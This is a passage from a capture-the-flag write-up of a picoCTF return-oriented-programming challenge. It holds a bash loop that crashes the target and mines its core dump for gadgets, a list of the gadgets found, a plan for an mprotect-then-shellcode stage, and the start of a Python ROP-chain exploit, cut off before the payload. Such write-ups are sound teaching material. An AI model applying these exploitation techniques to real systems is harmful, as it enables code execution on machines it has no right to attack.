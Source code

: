 ```bash
#!/bin/bash

while read i; do
	(echo $i; echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB") | ./hardcore_rop `pwd`
	dd if=core of=region bs=1 skip=4096 count=40960
	xxd -c 1 region | awk {'print $1 $2'} |sort -r > dump.txt
	python ./ropgadget.py -i bleh -d 10 > $i-gadgets.txt

	cat $i-gadgets.txt |egrep 'int 0x80'
	rm core
	rm dump.txt
done < digits.txt
```

This script does the following: it runs the program and sends a seed value for the ROP gadget generation. Then, it crashes the program. From the coredump, it extracts the region at `0xf000000` and proceeds to dump all these bytes into a textfile. Finally, my custom [ropgadget.py](https://gist.github.com/barrebas/4fc86eaf0e9b124813a3) searcher extracts all the ROP gadgets. It is slightly modified to work with this setup. I let this script run for a few hours. After a while, I ran 

```bash
bas@tritonal:~/tmp/picoctf/hardcorrop$ grep "int 0x80" *
0347-gadgets.txt:RET: 0x0000d64: int 0x80; lahf; ret; 
```

It found an `int 0x80` gadget! Luckily, the opcode `lahf` is harmless: it just load the FLAGS into `ah`. No big deal! With this useable gadget, a ROP chain could be built that calls `mprotect` to set the region at `0xf000000` to writeable. After this stage 1, a second stage would read the shellcode. First things first, let's find gadgets that allow us to control registers. The easiest would be a `pop r32; ret`. Luckily, these sequences are very likely to occur. I found everything I needed in the list of gadgets:

```
# RET: 0x000913f: pop eax; ret;
# RET: 0x0003c7e: pop ecx; ret;
# RET: 0x0002393: pop edx; ret;
# RET: 0x000964d: pop ebx; ret;
# RET: 0x0000d64: int 0x80; lahf; ret;
```

I wrote the following ROP chain:

```python
#!/usr/bin/python

import struct

BASE = 0xf000000
# RET: 0x000913f: pop eax; ret;
popeax = 0x000913f
# RET: 0x0003c7e: pop ecx; ret;
popecx = 0x0003c7e
# RET: 0x0002393: pop edx; ret;
popedx = 0x0002393
# RET: 0x000964d: pop ebx; ret;
popebx = 0x000964d
# RET: 0x0000569: pop edi; ret;
popedi = 0x0000569
# RET: 0x0000d64: int 0x80; lahf; ret;
int80h = 0x0000d64
# RET: 0x0001b11: int3; ret;
int03h = 0x0001b11

def p(x):
	return struct.pack("<L", x)
	
payload = ""
```